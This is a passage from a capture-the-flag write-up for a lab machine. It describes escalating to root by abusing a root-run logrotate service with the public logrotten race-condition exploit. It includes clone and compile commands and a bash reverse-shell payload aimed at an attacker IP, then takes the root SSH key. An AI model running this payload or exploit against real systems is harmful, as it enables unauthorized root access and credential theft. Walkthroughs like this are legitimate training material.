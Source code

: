 * let's login with this key now.

> **User-Flag**
>
> ![](https://i.ibb.co/xgShwqh/user.gif)


# []() Privilege Escalation --> Root

> after some enumeration i found that there is service running with root privilege so i used it to got root access. let's go.

> i will use pspy64 to check the processes, and here it is.
>
> ![](https://i.ibb.co/fN9GJfy/logrotate.png)

* nice! what is logrotate ?!

> logrotate is designed to ease administration of systems that generate large numbers of log files. It allows automatic rotation, compression, removal, and mailing of log files. Each log file may be handled daily, weekly, monthly, or when it grows too large. [Logrotate](https://linux.die.net/man/8/logrotate)

> i will use this exploit [Logrotate-Exploit](https://github.com/whotwagner/logrotten)

* logrotate is prone to a race condition after renaming the logfile.

* If logrotate is executed as root, with option that creates a file ( like create, copy, compress, etc.) and the user is in control of the logfile path, it is possible to abuse a race-condition to write files in ANY directories.

* An attacker could elevate his privileges by writing reverse-shells into directories like "/home/reader/backups/access.log".

> we will use this exploit to abuse the access.log file in the **/home/reader/backups/** to give us reverse shell as root, then we will cat the ssh-key for root.

* let's go

> clone the exploit in your machine with **git clone https://github.com/whotwagner/logrotten.git**

> compile it with **gcc logrotten.c -o logrotexp**, and upload the exploit to book machine.

> the exploit need a payload so let's meke it. >> **bash -i >& /dev/tcp/10.x.x.x/8080 0>&1**

* we need to be fast, let's go.

> SSH-Private key --> root
>
> ![root](https://i.ibb.co/pWRHfFt/root.gif)

* nice!, we got the SSH-key for root.

> Root-Flag
>
> ![pwned](https://i.ibb.co/YthDBts/pwned.gif)

* Thanks for reading.


